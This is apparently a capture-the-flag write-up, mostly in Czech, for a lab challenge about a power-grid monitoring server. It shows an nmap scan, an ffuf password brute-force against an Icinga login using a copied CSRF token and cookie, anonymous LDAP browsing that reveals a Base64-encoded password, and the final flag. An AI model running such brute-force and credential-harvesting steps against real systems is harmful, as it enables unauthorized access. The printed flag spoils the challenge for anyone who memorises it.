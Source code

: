 # Gridwatch (3)

## Zadání

Hi, emergency troubleshooter,

the entire Monitoring Department went on a teambuilding trip to the Cayman Islands, into the wilderness outside civilization (and without any telecommunications), and forgot to appoint a deputy during their absence. Verify whether all power plants are still in good condition.

The only thing we know about the monitoring team is that they registered the domain `gridwatch.powergrid.tcc`.

Stay grounded!

## Nápovědy (Hints)

1. Many systems like to keep things simple — their usernames often resemble their own names.

## Řešení

Nejdříve uděláme port scan počítače ze zadání.

`nmap gridwatch.powergrid.tcc -sV -sC`

```text
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache httpd 2.4.62 ((Debian))
| http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_Requested resource was /authentication/login?_checkCookie=1
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache/2.4.62 (Debian)
```

Na `http://gridwatch.powergrid.tcc:8080` běží SW Icinga <https://icinga.com/>, do které ale neznáme uživatele a heslo. Podle nápovědy by to mělo být `icinga`, heslo zkusíme najít hrubou silou.

Server používá obranu CSRF a ověřuje dotazu pomocí CSRF tokenu. Zkusíme se přihlásit z prohlížeče a `CSRFToken` a `Cookie` si zkopírujeme do `ffuf`.

`ffuf -u http://gridwatch.powergrid.tcc:8080/authentication/login -d "username=icinga&password=FUZZ&rememberme=0&redirect=&formUID=form_login&CSRFToken=1459846210%7C0370025316269f45f02dacd4ded67cfe9360185454768e489ed2475847792b13&btn_submit=Login" -H "Cookie: _chc=1; Icingaweb2=ismlvjqdu1sda7krc0o2es6ase; icingaweb2-tzo=7200-1" -H "Content-Type: application/x-www-form-urlencoded; charset=UTF-8" -w /usr/share/john/password.lst -fc 200`

Nalezené heslo je `test`.

Po proklikání Icinga systému jsem FLAG nenašel, ale našel jsem informaci o existenci počítače `ldap.powergrid.tcc` s IP adresou `10.99.25.52`.

`nmap 10.99.25.52 -sV -sC`

```text
PORT    STATE SERVICE VERSION
389/tcp open  ldap    OpenLDAP 2.2.X - 2.3.X
```

Jedná se službu LDAP, na její prohlížení použijeme například `jxplorer`, připojení funguje bez hesla. U uživatele `mscott` v poli Description řetězec `UHdkIHJlc2V0IHRvIFRoYXRzd2hhdHNoZXNhaWQK`, což po převedení z Base64 kódování je `Pwd reset to Thatswhatshesaid`.

Odhlásíme se z Icinga a přihlásíme se jako `mscott / Thatswhatshesaid`

Za chvilku se ve výpisu událostí objeví FLAG u počítače `fusion.powergrid.tcc`.

## Flag

`FLAG{KWT6-EoVP-uE47-9PtN}`

